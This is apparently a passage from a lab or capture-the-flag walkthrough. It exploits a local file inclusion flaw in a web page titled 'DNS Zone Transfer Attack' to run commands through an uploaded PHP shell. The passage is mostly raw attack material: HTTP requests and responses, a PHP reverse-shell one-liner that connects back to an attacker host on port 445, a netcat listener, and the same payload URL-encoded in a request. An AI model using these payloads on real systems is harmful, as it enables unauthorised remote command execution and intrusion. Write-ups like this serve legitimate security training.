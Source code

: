 #### request
```http
POST /secret_information/ HTTP/1.1
Host: 192.168.124.14
Upgrade-Insecure-Requests: 1
User-Agent: asd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

lang=/var/ftp/pub/shell.php&cmd=whoami&password=lol
```

#### response
```http
HTTP/1.1 200 OK
Date: Sun, 09 Jan 2022 16:05:14 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 155
Connection: close
Content-Type: text/html; charset=UTF-8

<title>zone transfer</title>

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

www-data
```
Yay! Shell!

### getting a reverse shell
- payload: ```php -r '$sock=fsockopen("192.168.49.124",445);exec("/bin/sh -i <&3 >&3 2>&3");'```

#### start listener on the attacker machine
```bash
nc -lvp 445
listening on [any] 445 ...
```

#### request
```http
POST /secret_information/ HTTP/1.1
Host: 192.168.124.14
Upgrade-Insecure-Requests: 1
User-Agent: asd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 282

lang=/var/ftp/pub/shell.php&cmd=%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%39%32%2e%31%36%38%2e%34%39%2e%31%32%34%22%2c%34%34%35%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27txt
&password=lol
```